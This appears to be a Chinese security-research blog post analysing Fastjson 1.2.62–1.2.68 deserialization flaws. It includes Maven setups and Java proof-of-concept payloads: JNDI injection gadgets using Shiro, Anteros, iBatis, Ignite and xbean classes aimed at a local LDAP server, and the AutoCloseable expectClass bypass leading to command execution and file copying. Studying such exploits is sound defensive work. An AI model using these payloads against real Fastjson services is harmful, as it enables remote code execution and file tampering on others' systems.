






+++
title= "Fastjson1.2.6X反序列化漏洞"
slug= "fastjson-1.2.6x-deserialization"
description= "1.2.68晕晕绕绕"
date= "2025-10-17T21:57:20+08:00"
lastmod= "2025-10-17T21:57:20+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

## 1.2.62

组件漏洞

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
        <fastjson.version>1.2.62</fastjson.version>
        <javassist.version>3.28.0-GA</javassist.version>
        <xbean.version>4.15</xbean.version>
    </properties>

    <dependencies>
        <dependency>
            <groupId>org.apache.xbean</groupId>
            <artifactId>xbean-reflect</artifactId>
            <version>${xbean.version}</version>
        </dependency>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>${fastjson.version}</version>
        </dependency>

        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>${javassist.version}</version>
        </dependency>
    </dependencies>
</project>
```

poc 如下

```java
package org.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;

public class JdbcRowSetImplPOC {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String maliciousJndiUrl = "ldap://127.0.0.1:1389/#Eval";
        
        String payload = String.format(
                "{\"@type\":\"org.apache.xbean.propertyeditor.JndiConverter\"," +
                        "\"AsText\":\"%s\"}",
                maliciousJndiUrl
        );

        JSON.parseObject(payload, Feature.SupportNonPublicField);
    }
}
```

## 1.2.66

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>fastjson-1266</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
        <fastjson.version>1.2.66</fastjson.version>
        <shiro.version>1.8.0</shiro.version>
        <anteros.version>1.0.1</anteros.version>
        <ibatis.version>2.3.4.726</ibatis.version>
        <jta.version>1.1</jta.version>
        <javassist.version>3.28.0-GA</javassist.version>
    </properties>

    <dependencies>
        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>${javassist.version}</version>
        </dependency>

        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>${fastjson.version}</version>
        </dependency>

        <dependency>
            <groupId>org.apache.shiro</groupId>
            <artifactId>shiro-core</artifactId>
            <version>${shiro.version}</version>
        </dependency>

        <dependency>
            <groupId>br.com.anteros</groupId>
            <artifactId>Anteros-Core</artifactId>
            <version>${anteros.version}</version>
        </dependency>
        <dependency>
            <groupId>br.com.anteros</groupId>
            <artifactId>Anteros-DBCP</artifactId>
            <version>${anteros.version}</version>
        </dependency>

        <dependency>
            <groupId>org.apache.ibatis</groupId>
            <artifactId>ibatis-sqlmap</artifactId>
            <version>${ibatis.version}</version>
        </dependency>
        <dependency>
            <groupId>javax.transaction</groupId>
            <artifactId>jta</artifactId>
            <version>${jta.version}</version>
        </dependency>
    </dependencies>
</project>
```

poc

```java
package org.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;

public class JdbcRowSetImplPOC {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);

        String shiroPoc =
                "{" +
                        "\"@type\": \"org.apache.shiro.realm.jndi.JndiRealmFactory\"," +
                        "\"jndiNames\": [\"ldap://localhost:1389/#Eval\"]," +
                        "\"Realms\": [\"\"]" +
                        "}";

        String anterosPoc1 =
                "{" +
                        "\"@type\": \"br.com.anteros.dbcp.AnterosDBCPConfig\"," +
                        "\"metricRegistry\": \"ldap://localhost:1389/#Eval\"" +
                        "}";

        String anterosPoc2 =
                "{" +
                        "\"@type\": \"br.com.anteros.dbcp.AnterosDBCPConfig\"," +
                        "\"healthCheckRegistry\": \"ldap://localhost:1389/#Eval\"" +
                        "}";

        String ibatisPoc =
                "{" +
                        "\"@type\": \"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig\"," +
                        "\"properties\": {" +
                        "\"@type\": \"java.util.Properties\"," +
                        "\"UserTransaction\": \"ldap://localhost:1389/#Eval\"" +
                        "}" +
                        "}";

        JSON.parseObject(ibatisPoc, Feature.SupportNonPublicField);
    }
}
```

## 1.2.67

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>fastjson-1267</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
        <fastjson.version>1.2.67</fastjson.version>
        <ignite.version>2.11.0</ignite.version>
        <shiro.version>1.8.0</shiro.version>
        <jta.version>1.1</jta.version>
        <slf4j.version>1.7.36</slf4j.version>
        <javassist.version>3.28.0-GA</javassist.version>
    </properties>

    <dependencies>
        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>${javassist.version}</version>
        </dependency>
      
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>${fastjson.version}</version>
        </dependency>

        <dependency>
            <groupId>org.apache.ignite</groupId>
            <artifactId>ignite-core</artifactId>
            <version>${ignite.version}</version>
        </dependency>
        <dependency>
            <groupId>org.apache.ignite</groupId>
            <artifactId>ignite-jta</artifactId>
            <version>${ignite.version}</version>
        </dependency>
        <dependency>
            <groupId>javax.transaction</groupId>
            <artifactId>jta</artifactId>
            <version>${jta.version}</version>
        </dependency>

        <dependency>
            <groupId>org.apache.shiro</groupId>
            <artifactId>shiro-core</artifactId>
            <version>${shiro.version}</version>
        </dependency>
        <dependency>
            <groupId>org.slf4j</groupId>
            <artifactId>slf4j-api</artifactId>
            <version>${slf4j.version}</version>
        </dependency>
    </dependencies>
</project>
```

poc

```java
package org.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;

public class JdbcRowSetImplPOC {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);

        String poc1 = "{\n" +
        "  \"@type\": \"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup\",\n" +
        "  \"jndiNames\": [\"ldap://localhost:1389/#Eval\"],\n" +
        "  \"tm\": {\"$ref\": \"$.tm\"}\n" +
        "}";

        String poc2 = "{\n" +
        "  \"@type\": \"org.apache.shiro.jndi.JndiObjectFactory\",\n" +
        "  \"resourceName\": \"ldap://localhost:1389/#Eval\",\n" +
        "  \"instance\": {\"$ref\": \"$.instance\"}\n" +
        "}";

        JSON.parseObject(poc2, Feature.SupportNonPublicField);
    }
}
```

## 1.2.68

从更新的补丁中可以看到expectClass类新增了三个方法分别为：

java.lang.Runnable、java.lang.Readable、java.lang.AutoCloseable

在学习fastjson1.2.47 反序列化时我们发现其绕过`checkAutoType`检测。



也就是这张图片，当时是从 mapping 缓存中去加载类，还有一种是从 Fastjson 的内置反序列化器缓存，当有缓存之后，若调用方指定了 `expectClass`，需确保缓存中的类是它的子类。

现在被修改为

```java
Class<?> clazz = TypeUtils.getClassFromMapping(typeName);
if (clazz == null) {
    clazz = this.deserializers.findClass(typeName);
}

if (clazz == null) {
    clazz = (Class)this.typeMapping.get(typeName);
}

if (internalWhite) {
    clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, true);
}

if (clazz != null) {
    if (expectClass != null && clazz != HashMap.class && !expectClass.isAssignableFrom(clazz)) {
        throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
    } else {
        return clazz;
    }
```

由于 java.lang.AutoCloseable 满足所有条件所以会直接`return clazz;`所以直接获得了



要像 1.2.47 一样进入 checkAutoType 两次，并且第二次通过缓存获取到类，我调试了很久，发现在`JavaBeanDeserializer.deserialze`里进行了第二次 checkAutoType



此时两属性值为



完美符合，可以获得到`Calc`并调用任意 setter 方法

```java
package org.Base;

public class Calc implements AutoCloseable{
    private String name;


    public void setName(String name) throws Exception {
        Runtime.getRuntime().exec(name);
    }

    @Override
    public void close() throws Exception {

    }
}
```

poc

```java
package org.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;

public class JdbcRowSetImplPOC {
    public static void main(String[] args) {
        String poc =
                "{" +
                        "\"@type\": \"java.lang.AutoCloseable\"," +
                        "\"@type\": \"org.Base.Calc\"," +
                        "\"name\":\"open -a Calculator\"" +
                        "}";

        JSON.parseObject(poc, Feature.SupportNonPublicField);
    }
}
```



调用栈

```java
at org.Base.Calc.<init>(Calc.java:3)
at com.alibaba.fastjson.parser.deserializer.FastjsonASMDeserializer_1_Calc.deserialze(Unknown Source:-1)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:284)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:808)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:288)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:284)
at com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(DefaultJSONParser.java:395)
at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1401)
at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1367)
at com.alibaba.fastjson.JSON.parse(JSON.java:183)
at com.alibaba.fastjson.JSON.parse(JSON.java:193)
at com.alibaba.fastjson.JSON.parse(JSON.java:246)
at com.alibaba.fastjson.JSON.parseObject(JSON.java:250)
at org.fastjson.JdbcRowSetImplPOC.main(JdbcRowSetImplPOC.java:15)
```

不过现在是我们可控恶意类的情况，我们要去找组件或者是原生的恶意继承类

```java
<dependency>    
     <groupId>org.aspectj</groupId>    
     <artifactId>aspectjtools</artifactId>    
     <version>1.9.5</version>    
</dependency>
```

找到一个文件操作类 SafeFileOutputStream

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package org.eclipse.core.internal.localstore;

import java.io.BufferedInputStream;
import java.io.BufferedOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import org.eclipse.core.internal.utils.FileUtil;

public class SafeFileOutputStream extends OutputStream {
    protected File temp;
    protected File target;
    protected OutputStream output;
    protected boolean failed;
    protected static final String EXTENSION = ".bak";

    public SafeFileOutputStream(File file) throws IOException {
        this(file.getAbsolutePath(), (String)null);
    }

    public SafeFileOutputStream(String targetPath, String tempPath) throws IOException {
        this.failed = false;
        this.target = new File(targetPath);
        this.createTempFile(tempPath);
        if (!this.target.exists()) {
            if (!this.temp.exists()) {
                this.output = new BufferedOutputStream(new FileOutputStream(this.target));
                return;
            }

            this.copy(this.temp, this.target);
        }

        this.output = new BufferedOutputStream(new FileOutputStream(this.temp));
    }

    public void close() throws IOException {
        try {
            this.output.close();
        } catch (IOException e) {
            this.failed = true;
            throw e;
        }

        if (this.failed) {
            this.temp.delete();
        } else {
            this.commit();
        }

    }

    protected void commit() throws IOException {
        if (this.temp.exists()) {
            this.target.delete();
            this.copy(this.temp, this.target);
            this.temp.delete();
        }
    }

    protected void copy(File sourceFile, File destinationFile) throws IOException {
        if (sourceFile.exists()) {
            if (!sourceFile.renameTo(destinationFile)) {
                InputStream source = null;
                OutputStream destination = null;

                try {
                    source = new BufferedInputStream(new FileInputStream(sourceFile));
                    destination = new BufferedOutputStream(new FileOutputStream(destinationFile));
                    this.transferStreams(source, destination);
                    destination.close();
                } finally {
                    FileUtil.safeClose(source);
                    FileUtil.safeClose(destination);
                }

            }
        }
    }

    protected void createTempFile(String tempPath) {
        if (tempPath == null) {
            tempPath = this.target.getAbsolutePath() + ".bak";
        }

        this.temp = new File(tempPath);
    }

    public void flush() throws IOException {
        try {
            this.output.flush();
        } catch (IOException e) {
            this.failed = true;
            throw e;
        }
    }

    public String getTempFilePath() {
        return this.temp.getAbsolutePath();
    }

    protected void transferStreams(InputStream source, OutputStream destination) throws IOException {
        byte[] buffer = new byte[8192];

        while(true) {
            int bytesRead = source.read(buffer);
            if (bytesRead == -1) {
                return;
            }

            destination.write(buffer, 0, bytesRead);
        }
    }

    public void write(int b) throws IOException {
        try {
            this.output.write(b);
        } catch (IOException e) {
            this.failed = true;
            throw e;
        }
    }
}
```



仔细看到这里发现可以复制文件

```java
package org.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;

public class JdbcRowSetImplPOC {
    public static void main(String[] args) {
        String poc =
                "{" +
                        "\"@type\": \"java.lang.AutoCloseable\"," +
                        "\"@type\": \"org.eclipse.core.internal.localstore.SafeFileOutputStream\"," +
                        "\"tempPath\":\"/tmp/flag\"," +
                        "\"targetPath\":\"/tmp/baozongwi\";" +
                        "}";

        JSON.parseObject(poc, Feature.SupportNonPublicField);
    }
}
```


> https://xz.aliyun.com/news/14309
>
> https://cloud.tencent.com/developer/article/2258512
>
> https://nlrvana.github.io/fastjson-1.2.62-1.2.68%E7%89%88%E6%9C%AC%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/
